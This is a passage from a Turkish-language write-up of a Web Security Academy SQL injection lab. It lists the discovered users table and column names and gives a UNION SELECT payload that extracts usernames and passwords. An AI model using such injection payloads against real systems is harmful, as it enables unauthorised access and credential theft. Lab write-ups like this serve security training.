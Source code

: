 ![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2030.png)

```sql
Tablo adı ve Kolon isimlerimizi not alıyoruz:
tablo: 
**USERS_XEDOYY
kolonlar:**
EMAIL
PASSWORD_VDQFLZ
USERNAME_ZIOPHP
```

Bu aşamadan sonra da bu kolonlardaki verileri çekmeye yönelik bir SQL sorgusu yazmamız gerekmektedir. Burada iki kolon da ekrana yazıldığı için concatenation yani birleştirme yapmamıza gerek yok.

```python
mdisec' UNION SELECT USERNAME_ZIOPHP,PASSWORD_VDQFLZ FROM USERS_XEDOYY --
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2031.png)
